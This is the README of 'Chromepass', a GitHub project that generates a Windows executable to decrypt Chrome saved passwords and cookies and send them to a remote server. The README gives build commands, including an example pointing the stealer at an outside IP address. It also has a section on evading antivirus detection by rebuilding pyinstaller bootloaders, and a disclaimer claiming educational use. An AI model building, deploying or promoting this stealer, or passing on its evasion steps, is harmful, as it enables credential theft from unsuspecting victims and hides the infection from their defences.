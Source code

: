 [![Gitpod Ready-to-Code](https://img.shields.io/badge/Gitpod-Ready--to--Code-blue?logo=gitpod)](https://gitpod.io/#https://github.com/darkarp/chromepass) 

<h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
  <a href="http://itsec.us/">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Todo](#todo)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Chrome saved paswords
  - Send a file with the login/password combinations remotely (http server)
  - Custom icon
  - Undetectable by AV if done correctly

---

### AV Detection!
This can be undetected with a very easy step detailed below. The reason why it's detected is because many AVs get tripped by the popular signatures of pyinstaller. To mitigate this, you can build the bootloaders manually. You can do this on a clean VM if you wish:
 - Go through the [Installation](#installation) first
 - Open an administrator powershell
 - Run the following code and wait for it to finish, it might take a while: 
```powershell
Set-ExecutionPolicy remotesigned -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1')); choco install -y python vcbuildtools git
```
 - Close the powershell window and open a new one (doesn't require administrator)
 - Go into the chromepass directory, if you're not in it already.
 - Run the following code: 
  ```powershell
     git clone https://github.com/pyinstaller/pyinstaller.git
     pip uninstall pyinstaller -y
     cd pyinstaller
     python bootloader/waf all
     pip install .
  ```
 - Now you can follow the [Usage](#usage) normally and your executable is no longer detected by most AVs.  
 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.6+

### Installation

Chromepass requires [Python] 3.6+ to run.

Clone the repository:
```powershell
git clone https://github.com/darkarp/chromepass
```

Install the dependencies:

```powershell
cd chromepass
pip install -r requirements.txt
```

If any errors occur make sure you're running on the proper environment (if applcable) and that you have python 3.6+
If the errors persist, try:
```powershell
python -m pip install --upgrade pip
python -m pip install -r requirements.txt
```  

## Usage

Chromepass is very straightforward. Start by running:
```powershell
> python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message "An Error has happened"
```

After creating the server and the client, make sure you're running the server when the client is ran.

If you'd like additional notes on evading AV, refer to [AV Detection](#av-detection)  

---
 
## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---

## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> MIT </a>
   
[Python]: <https://www.python.org/downloads/>
